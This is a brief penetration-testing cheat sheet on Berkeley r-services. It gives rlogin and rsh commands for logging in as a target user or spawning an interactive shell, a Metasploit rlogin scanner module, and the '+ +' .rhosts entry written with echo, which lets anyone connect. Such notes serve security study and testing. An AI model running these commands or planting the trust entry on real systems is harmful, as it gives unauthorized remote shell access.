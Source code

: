 # R*-Services aka Berkeley Remote ("r") Commands
```
rlogin -i fakedLocUser -l targetUser -p 513 host
rsh -l bin host csh -i  #  untested!!
use auxiliary/scanner/rservices/rlogin_login # metasploit

~/.rhosts  (~/.rlogin)
user host # strict config
+ +  # everyone can conntect from * # echo "+ +" > ~/.rhosts

/etc/hosts.equiv
```

tags: R-Service remote [Berkeley Remote]
